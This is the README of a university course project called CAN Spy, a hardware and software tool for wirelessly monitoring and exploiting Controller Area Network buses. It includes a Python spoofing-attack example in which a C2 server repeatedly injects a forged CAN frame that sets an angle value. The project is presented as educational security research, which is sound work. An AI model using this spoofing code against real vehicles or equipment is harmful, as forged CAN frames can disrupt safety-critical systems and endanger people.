

# CAN Spy

A practical hardware device and software tool for wirelessly monitoring and exploiting Controller Area Network (CAN) systems. Strictly for educational and security research purposes. This project was developed as the course project for UCLA ECE 202A Embedded Systems taken Fall 2024 with professor Mani Srivastava.

For more information visit the [project site](https://roryhemmings.com/CAN-spy)





## Basic library use

For package setup details visit the [package readme](can-spy/README.md)

### Spoofing Example:
```py
#!/usr/bin/python3

import asyncio
import random

from can_spy.can_packet import CanPacket
from can_spy.c2_server import C2Server


async def handle_client(websocket):
    angle = random.randint(15, 60)
    angle = 30
    while True:
        print("Set angle to 30")
        packet = CanPacket(
            data=angle.to_bytes(1, byteorder='little', signed=True),  # Actual byte level payload
            timestamp=0, # Arbitrary in this case
            can_id=0x10,
            length=1
        )

        await websocket.send(packet.serialize())
        await asyncio.sleep(0.5)

def main():
    """Spoofing attack example script"""

    c2 = C2Server(client_handler=handle_client)
    c2.serve_forever()
        
if __name__ == "__main__":
    main()
```